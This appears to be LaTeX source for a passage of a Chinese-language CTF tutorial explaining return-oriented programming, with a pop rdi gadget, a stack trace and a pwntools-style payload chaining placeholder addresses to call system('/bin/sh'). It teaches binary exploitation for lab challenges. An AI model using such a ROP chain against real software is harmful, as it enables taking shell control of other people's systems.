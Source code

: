 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\paragraph{10.2 解法：gadget}\label{ux89e3ux6cd5gadget}

\begin{quote}
以下出現的
\texttt{0x401234}、\texttt{BINSH\_\allowbreak{}ADDR}、\texttt{SYSTEM\_\allowbreak{}ADDR}、\texttt{POP\_\allowbreak{}RDI}、\texttt{RET}
都是\textbf{佔位符（假位址）}， 你要用 \texttt{ROPgadget} /
\texttt{readelf} / pwntools 從\textbf{自己題目的 binary}
找出真正的位址再填進去。 直接照抄下面的數字當成真位址一定失敗。
\end{quote}

程式碼裡散落著很多「以 \texttt{ret} 結尾」的小片段，例如：

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{401234:  }\BuiltInTok{pop} \KeywordTok{rdi}
\NormalTok{401235:  }\ControlFlowTok{ret}
\end{Highlighting}
\end{Shaded}

如果我們把返回位址蓋成 \texttt{0x401234}，會發生：

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
ret          →  rip = 0x401234, rsp → 下一個 qword
pop rdi      →  rdi = [rsp]（我們控制的值！）, rsp += 8
ret          →  rip = [rsp]（我們控制的下一個位址）, rsp += 8
\end{Verbatim}

\textbf{所以堆疊就變成了「指令序列」}。這就叫 ROP（Return-Oriented
Programming）。

\paragraph{\texorpdfstring{10.3 組出
\texttt{system("/\allowbreak{}bin/\allowbreak{}sh")}}{10.3 組出 system("/bin/sh")}}\label{ux7d44ux51fa-systembinsh}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{payload  }\OperatorTok{=} \StringTok{b"A"} \OperatorTok{*}\NormalTok{ offset}
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(POP\_RDI)      }\CommentTok{\# pop rdi ; ret}
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(BINSH\_ADDR)   }\CommentTok{\# rdi = "/bin/sh"}
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(RET)          }\CommentTok{\# 可選：對齊用的 ret}
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(SYSTEM\_ADDR)  }\CommentTok{\# 跳去 system}
\end{Highlighting}
\end{Shaded}
\end{document}
